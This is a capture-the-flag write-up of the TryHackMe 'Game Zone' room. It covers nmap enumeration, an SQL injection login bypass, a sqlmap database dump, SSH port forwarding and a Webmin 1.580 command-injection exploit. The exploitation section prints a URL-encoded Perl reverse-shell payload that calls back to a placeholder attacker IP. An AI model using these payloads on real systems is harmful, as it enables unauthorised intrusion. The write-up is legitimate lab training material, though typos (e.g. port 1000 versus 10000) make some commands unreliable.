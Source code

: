 ```yaml
---
layout: post
title: Game Zone | Writeup
categories: CTF
author: ThelastVvV
date: '2020-07-20 05:00:53 +0000'
tags:
  - CTF
  - CyberSecurity
  - TryHackMe
published: true
---
```


- [Game Zone](#game-zone)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Reverse SSH tunnels](#reverse-ssh-tunnels)
- [Reverse shell](#reverse-shell)
- [Root Flag](#root-flag)


<!-- toc -->


### Game Zone 
Hallå gubbar , I'm a big fan of  Sql injection vulnerabilities  and i 'm in love with Sqlmap  for ages and we are lucky to have this box to work on not hard at all and very easy if you follow up carefully .
try it out at [Game Zone](https://tryhackme.com/room/gamezone)






### Enumeration
Nmap scan & Results:
```sh
nmap -sV -p- -vv BoxIP
```

`22/tcp open ssh`
`80/tcp open http`


so we have and web server and ssh services running so lets go to 
```sh
http://Ip-Box:80/
```


### Exploitation
we will find a login with Agent-47 image which is vulnerable to auth sql injection


Try this to bypass


USERNAME: `admin' or '1' = '1'; -- -` 

PASSWORD: `vvv`


After login we can see that we have a search bar  (after trying other injection commands) we can confirm that it also vulnerable to sql injection in the "searchitem "id parameter 


Now we can jump to sqlmap to dump data

What we need ?

1. Get request 
2. Request file
3. Sqlmap

results : `userpass`


Command:
```sh
sqlmap -r dirofrequest.txt  --dbms=mtsql --dump
```


Options | Meaning |
--- | --- | 
-r| uses the intercepted request 
--dbms | type of database
--dump| dump all data

![alt text](https://thelastvvv.github.io/images/posts/4/requestsql.png "THM")


![alt text](https://thelastvvv.github.io/images/posts/4/sqlagent.png "THM")


To crack the hash use any offline tools or online services 

### Reverse SSH tunnels
so as we find earlier that we have a ssh service we will try to login with same credentials


this command :
```sh
sshpass -p Password ssh -l Username Box-Ip 
```

then run this command:
```sh
ss -tulpn
```

`ss` to investigate sockets running on the host


we find that there's `5 TCP socket` running and `1000 port` is blocked via firewall rules

so now let try to kill processes using `Ctrl+Z`


then re-login to ssh using this command:
```sh
 ssh -L 10000:localhost:10000  Username@Box-Ip
```
![alt text](https://thelastvvv.github.io/images/posts/4/localhost.png "THM")



User Flag:


![alt text](https://thelastvvv.github.io/images/posts/4/flag1.png "THM")



then go to
```sh
http://localhost:10000/
```
and just login with same credentials

![alt text](https://thelastvvv.github.io/images/posts/4/webminversion.png "THM")


CMS Webmin version `1.580`

### Reverse shell

Use searchsploit `webmin`

[https://www.exploit-db.com/exploits/21851
](https://www.exploit-db.com/exploits/21851
)


We have two option to exploited either metasploit or manual ...

go manual for faster results

```ruby


'Name'           => 'Webmin /file/show.cgi Remote Command Execution',
			'Description'    => %q{
					This module exploits an arbitrary command execution vulnerability in Webmin
				1.580. The vulnerability exists in the /file/show.cgi component and allows an
				authenticated user, with access to the File Manager Module, to execute arbitrary
				commands with root privileges. The module has been tested successfully with Webim
				1.580 over Ubuntu 10.04.
res = send_request_cgi(
			{
				'uri'     => "/file/show.cgi/bin/#{rand_text_alphanumeric(rand(5) + 5)}|#{command}|",
				'cookie'  => "sid=#{session}"
			}, 25)

```

```sh
http://localhost:1000/file/show.cgi/bin/#{rand_text_alphanumeric(5)}|#{command}|
```
```sh
http://localhost:1000/file/show.cgi/bin/#{rand_text_alphanumeric(5)}|perl%20-e%20'use%20Socket;$i=%22Your-ip%22;$p=Your-PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,%22%3E&S%22);open(STDOUT,%22%3E&S%22);open(STDERR,%22%3E&S%22);exec(%22/bin/sh%20-i%22);};'%20|
```
[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Root Flag


![alt text](https://thelastvvv.github.io/images/posts/4/flagroot.png "THM")




The end ...see you next time




